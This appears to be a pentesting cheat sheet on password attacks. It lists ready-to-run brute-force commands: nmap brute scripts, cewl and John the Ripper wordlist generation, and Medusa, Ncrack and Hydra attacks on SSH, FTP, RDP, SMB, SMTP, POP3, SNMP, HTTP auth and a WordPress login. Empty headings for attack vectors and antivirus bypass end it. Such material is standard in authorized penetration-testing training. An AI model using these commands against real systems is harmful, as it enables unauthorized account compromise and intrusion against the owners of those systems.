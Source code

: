 # Additional

## Password Attacks


### Brute Force

#### Nmap Brute forcing Scripts
        [*https://nmap.org/nsedoc/categories/brute.html*](https://nmap.org/nsedoc/categories/brute.html)

#### Nmap Generic auto detect brute force attack:
        `nmap --script brute -Pn <target.com or ip>`

#### MySQL nmap brute force attack:
        `nmap --script=mysql-brute $ip`


### Dictionary Files

#### Word lists on Kali
        `cd /usr/share/wordlists`

### Password Profiling

#### cewl can generate a password list from a web page
        `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`

### Password Mutating

#### John the ripper can mutate password lists
        nano /etc/john/john.conf
        `john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt`

### Medusa

#### Medusa, initiated against an htaccess protected web
        directory
        `medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10`

### Ncrack

#### ncrack (from the makers of nmap) can brute force RDP
        `ncrack -vv --user offsec -P password-file.txt rdp://$ip`



### Hydra

#### Hydra brute force against SNMP

        `hydra -P password-file.txt -v $ip snmp`

#### Hydra FTP known user and rockyou password list

        `hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp`

#### Hydra SSH using list of users and passwords

        `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`

#### Hydra SSH using a known password and a username list

        `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`

#### Hydra SSH Against Known username on port 22

        `hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt`

#### Hydra POP3 Brute Force

        `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`

#### Hydra SMTP Brute Force

        `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`

 #### Hydra attack http get 401 login with a dictionary

        `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`

#### Hydra attack Windows Remote Desktop with rockyou

        `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`

#### Hydra brute force SMB user with rockyou:

        `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb`

#### Hydra brute force a Wordpress admin login

        `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`











## Attack Vectors



## Bypassing Antivirus Software


